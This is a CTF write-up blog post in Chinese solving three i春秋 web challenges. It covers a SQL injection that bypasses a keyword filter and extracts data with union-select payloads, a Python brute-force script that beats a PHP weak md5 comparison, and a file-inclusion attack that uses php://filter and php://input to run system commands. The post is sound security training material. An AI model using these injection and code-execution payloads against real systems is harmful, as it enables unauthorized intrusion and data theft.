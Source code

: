 <!--yml
category: 未分类
date: 2022-04-26 14:21:40
-->

# i春秋CTF-WEB题解(二)_ 晓德的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_42271850/article/details/107190310](https://blog.csdn.net/weixin_42271850/article/details/107190310)

## 简述

        还是和之前一样，每做三题写一个题解记录一下。

### 一、SQL（百度杯CTF比赛 九月场）

![在这里插入图片描述](img/e0db7f860651e2bb42cb7db22481ddde.png)

> 题目给的提示是：题目内容提示这是一道SQL注入的题目。打开网页查看源代码能看到有一些提示：

```
<!--SELECT * FROM info  WHERE id=1--><br />flag{在数据库中}<br /><br /> 
```

> 开始进行尝试
> 1）index.php?id=1 返回 flag{在数据库中}
> 2）index.php?id=2 返回 test
> 3）index.php?id=3 返回 空白
> 4）index.php?id=1%27 返回 空白
> 5）index.php?id=1%27%23 返回空白
> 6）index.php?id=1%23 返回 flag{在数据库中}
> 7）index.php?id=1 order by 1%23 返回 inj code!
> 尝试到这里能发现应该是有对部分关键字做检测的
> 8）然后就做一个关键字的FUZZ测试
> 发现select、order by是被检测到的，or后面跟空格也是会被检测到。
> 9）index.php?id=1 oRDer by 1%23 返回 inj code!
> 10）index.php?id=1 o/**/rder by 1%23 返回空，内敛注释绕过失败
> 11）index.php?id=1 ororderder by 1%23 返回空，双写绕过失败
> 12）index.php?id=1 o<>der by 1%23 返回 flag{在数据库中} ，绕过成功

```
证明可以通过<>的方式来绕过检测，剩下的就按照正常的注入方式操作即可。
1、?1 o<>der by 3%23   确定一共三个字段
2、?id=0 union se<>lect 1,2,3%23 确认注入点再第二个字段
3、?id=0 union se<>lect 1,database(),3%23 确认数据库为sqli
4、?id=0 union se<>lect 1,group_concat(table_name),3 from information_schema.tables where table_schema =database()%23 确认表名为info,users
5、?id=0 union se<>lect 1,group_concat(column_name),3 from information_schema.columns where table_name = 'info'%23 确认列名id,title,flAg_T5ZNdrm
6、?id=0 union se<>lect 1,group_concat(flAg_T5ZNdrm),3 from info%23 能查到对应的flag 
```

![在这里插入图片描述](img/0ade8175e241bce2ccfe6f54cb8e687f.png)

### 二、爆破-3（百度杯CTF比赛 2017 二月场）

![在这里插入图片描述](img/f3d160107c3b6ef95f17d26ae7f86382.png)

> 题目提示这题是采用爆破的形式，打开题目链接，也是一段PHP代码。

```
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>

代码解析:
开启session
引入flag.php
判断session中是否有设置nums，没有设置的话会初始化一个session，nums为0，time为当前时间，whoami为ea
判断当前session的time是不是120ms前的，如果是的话就销毁当前session
从请求value中读取值赋值到变量$value上
创建一个a-z的数组$str_rand
$str_rands变量赋值为随机两个字母
判断当前session中whoami参数是不是等于$value的前两位，且$value md5加密后截取5-8位是不是弱等于0
如果是的话$nums加1，$whoami为$str_rands，打印出$str_rands
判断当前session中$nums是不是大于10，如果是就打印出flag。 
```

> 梳理一下相关逻辑。首先第一次访问，肯定是没有session的，这时候会被初始化session，这时候nums为1，time为目前时间，whoami为ea。然后这时候肯定不会超时，所以不用管。这时候会拿我们传进去的参数和whoami进行对比，那说明我们要传ea进去，还需要比对截取的MD5值和0，一般使用数组可以绕过这些弱比较。这是时候就会nums加1，然后将whoami指定为一个新的2位随机数，并打印出来。如果最后nums超过10，就能拿到flag。

> 1、首先因为会有超时的机制，所以基本不可能是手动操作，应该是要写脚本。
> 2、其次我们需要第一次传入ea，然后得到打印出的随机数作为值第二次访问页面并进行传入。
> 3、只要我们连续10次成功，就能在页面中看到flag，那开始动手写代码。

```
import requests

s = requests.Session()
url = "http://4a39e963a34444da980688f11b229d0fca847b4f6b014e29.changame.ichunqiu.com/?value[]="
tmp = "ea"
for i in range(12):
    r = s.get(url + tmp)
    print(r.text)
    tmp = r.text[0:2] 
```

![在这里插入图片描述](img/afb345586acc73577cbcb687c1b27116.png)

### 三、include（百度杯CTF比赛 2017 二月场）

![在这里插入图片描述](img/a3142d61119f844d7e7062af3d712d14.png)

> 看题目的简介应该是一道文件包含漏洞的题目，打开题目链接能看到PHP代码，并且phpinfo的相关信息。

```
<?php 
show_source(__FILE__);
if(isset($_REQUEST['path'])){
    include($_REQUEST['path']);
}else{
    include('phpinfo.php');
}
代码解析：
判断请求参数中有没有path，如果有就包含，没有就包含phpinfo.php页面 
```

> 分析一下，首先我们登陆进去肯定是没传参数的，所以包含了phpinfo.php页面，展示了相关的信息。那么一般文件包含就能联想到phpinfo中的两个配置的开关，allow_url_fopen和allow_url_include。

![在这里插入图片描述](img/c5c42fb0ff0202e40bc08dc315e441d3.png)

> 看到allow_url_include开关是打开的，证明网站确实有文件包含漏洞，而且刚好我们传入的参数也就是包含的文件名。
> 1、尝试用path=php://filter/read=convert.base64-encode/resource=index.php读取index.php的源码，能读到但是没什么用。
> 2、尝试用path=php://filter/read=convert.base64-encode/resource=phpinfo.php读取index.php的源码，能读到但是没什么用。
> 3、尝试用?path=php://input，将请求变为POST，并在请求体中写入<?php echo (123); 发现页面有打印123，证明可以代码执行。
> 4、将请求体改为<?php system(‘ls -l’); 发现存在dle345aae.php页面
> 5、将请求体改为<?php system(“cat dle345aae.php”); 能看到flag。

![在这里插入图片描述](img/f417b5e9dcba5ce898a835070adfc662.png)